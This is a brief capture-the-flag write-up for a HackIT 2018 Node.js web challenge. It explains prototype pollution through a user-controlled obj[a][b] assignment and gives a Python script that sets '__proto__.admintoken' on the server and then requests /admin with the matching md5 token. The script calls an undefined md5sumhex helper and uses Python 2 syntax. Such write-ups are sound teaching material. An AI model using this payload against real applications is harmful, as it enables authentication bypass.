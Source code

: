 This challenge was provided with source code access, written in nodejs.
The bug is related to prototype pollution in the [line](https://github.com/DefConUA/HackIT2018/blob/master/web/Republic_of_Gayming/app.js#L64)
The general idea behind prototype pollution is when you an expression like : 
obj[a][b] = value

And user can control a,b and value
if the users sets "a" to "\__proto__" and "b" to any property , he can injects attributes in all existing objects with the value "value"
for more details check [this](https://github.com/HoLyVieR/prototype-pollution-nsec18)

the script I used is pretty simple, pollute array proto with attribute admintoken and an arbitrary value, then query /admin with the md5 of that value,
Note: At some points lot of teams were changing the __proto__ at the same time so it became like a trivial race condition, but it can be won easy 
```python
import requests


r = requests.post('http://185.168.131.1:3000/api',json={'row':'__proto__','col':'admintoken','data':'qqq'})
r = requests.get('http://185.168.131.1:3000/admin?querytoken=' + md5sumhex('qqq'))
print r.text

```
